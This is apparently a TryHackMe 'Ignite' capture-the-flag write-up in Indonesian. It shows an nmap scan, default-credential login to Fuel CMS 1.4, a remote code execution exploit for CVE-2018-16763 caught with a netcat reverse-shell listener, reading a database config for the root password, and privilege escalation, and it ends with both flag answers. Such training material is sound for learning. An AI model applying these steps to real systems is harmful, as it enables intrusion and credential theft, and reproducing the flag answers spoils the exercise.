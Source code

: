 # Ignite
- TryHackMe Room: https://tryhackme.com/room/ignite
- IP Machine: 10.10.116.227

## Task 1 Root it!
- Scanning server menggunakan nmap. Disini hanya ada 1 port yang terbuka, yaitu port 80 (http)
```sh
nmap -sV -sC <IP_Machine>
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%201.JPG)

- Buka halaman web `http://<IP_Machine>` di browser. Disini terlihat bahwa halaman ini adalah halaman default fuel CMS versi 1.4

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%202.JPG)

- Di halaman tersebut terdapat informasi dimana letak file konfigurasi database

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%203.JPG)

- Di halaman tersebut juga terdapat informasi cara mengakses halaman admin dan default credential

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%204.JPG)

- Sekarang kita coba akses halaman admin dengan url `http://<IP_Machine>/fuel` dan kita langsung diarahkan ke halaman login. Sekarang kita isi username dan password dengan default credential diatas

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%205.JPG)

- Kita berhasil masuk ke halaman admin, tapi tidak ditemukan hal menarik disini

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%206.JPG)

- Berdasarkan riset, fuel CMS versi 1.4 rentan terhadap serangan Remote Code Execution ( CVE 2018-16763 )

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%207.JPG)

- Kita bisa memanfaatkan script python3 di link https://gist.github.com/anir0y/8529960c18e212948b0e40ed1fb18d6d#file-fuel-cms-py untuk melakukan exploitasi pada fuel CMS versi 1.4
- Sekarang kita buat sebuah listener netcat di terminal baru
```sh
nc -lnvp <port>
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%208.JPG)

- Jalankan script fuel-cms.py
```sh
python3 fuel-cms.py <IP_Machine>
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%209.JPG)

- Ketik `shell_me` kemudian masukkan IP tun0 pada komputer anda lalu nomor port yang digunakan listener netcat tadi dengan format sebagai berikut
```sh
<IP_tun0>:<port>
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%2010.JPG)

- Disini listener netcat berhasil terkoneksi dengan server dan masuk sebagai user **www-data**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%2011.JPG)

- Selanjutnya kita buka file konfigurasi database fuel CMS, disana terdapat nama user root dan password
```sh
cat fuel/application/config/database.php
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%2012.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%2013.JPG)

- Kita juga berhasil menemukan lokasi dan isi user flag
```sh
cat /home/www-data/flag.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%2014.JPG)

- Untuk mengakses user root kita perlu mengubah shell menjadi terminal interaktif
```sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%2015.JPG)

- Sekarang kita switch ke user root lalu masukkan password yang sudah ditemukan tadi. Disini kita berhasil mengakses user root
```sh
su root
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%2016.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%2017.JPG)

- Sekarang kita buka isi root flag
```sh
cat /root/root.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%2018.JPG)

- **Pertanyaan:** User.txt
- **Jawaban:**
```sh
6470e394cbf6dab6a91682cc8585059b
```
- **Pertanyaan:** Root.txt
- **Jawaban:**
```sh
b9bbcb33e11b80be759c4e844862482d
```